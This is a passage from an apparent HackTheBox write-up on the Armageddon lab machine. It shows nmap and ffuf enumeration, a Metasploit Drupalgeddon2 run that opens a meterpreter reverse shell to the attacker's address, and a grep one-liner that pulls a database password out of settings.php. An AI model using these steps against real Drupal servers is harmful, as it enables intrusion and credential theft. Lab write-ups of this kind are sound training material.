 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Armageddon
---
```


This machine has IP 10.10.10.233.

Enumerate:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 17:30 NZST
Nmap scan report for armageddon (10.10.10.233)
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.43 seconds
```

I go to `http://armageddon/` and find that I need to log in or create an account.  I don't yet know what for.

We use `ffuf` to find the subdirectories open to us:
```
.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9]
includes                [Status: 301, Size: 235, Words: 14, Lines: 8]
misc                    [Status: 301, Size: 231, Words: 14, Lines: 8]
modules                 [Status: 301, Size: 234, Words: 14, Lines: 8]
profiles                [Status: 301, Size: 235, Words: 14, Lines: 8]
robots.txt              [Status: 200, Size: 2189, Words: 158, Lines: 91]
scripts                 [Status: 301, Size: 234, Words: 14, Lines: 8]
sites                   [Status: 301, Size: 232, Words: 14, Lines: 8]
themes                  [Status: 301, Size: 233, Words: 14, Lines: 8]
```

We note that in `/scripts` we see a `password-hash.sh` file.  This is actually some PHP code. 

We also have a `/robots.txt` file, which looks pretty generic.

There is so much information here, I don't know where to start!  Some of the files I have tried to access cannot be accessed from the browser, so perhaps this is not the bes way in.  Well, we see from the `nmap` scan that the server is using Drupal 7.  Let's have a look to see if there are any exploits of that.  We use `searchsploit` and see quite a few...

We set LHOST to our own `tun0` or `utun2` IP, and RHOSTS to the machine's.
```
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 10.10.14.239
LHOST => 10.10.14.239

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.233
RHOSTS => 10.10.10.233

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run
[*] Started reverse TCP handler on 10.10.14.239:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.239:4444 -> 10.10.10.233:43850) at 2021-04-12 18:15:20 +1200

meterpreter>
```

However, once we run anything on here, if it is left for too long, we get an error.
```
meterpreter > ls
[-] Session manipulation failed: Too many open files
```

Promptly, we run:
```
meterpreter > ls
Listing: /var/www/html
======================
...
```

Running `shell` and then `bash -i`, we gain access to a bash shell.

I wonder if there are any user information in this directory, or any subdirectories, so I run the following:
```
find sites/ -type f | while IFS= read -r F; do [[ -z "$(grep -i "password" "$F")" ]] || (echo "\n\n-------->$line" && grep -i "password" "$F"); done
```

This takes quite a bit of filtering through, but in `sites/default/settings.php`, I find this line:
```php
'password' => 'CQHEy@9M*m23gBVj'
```

The same file actually contains a username line:
```php
'username' => 'drupaluser',
```

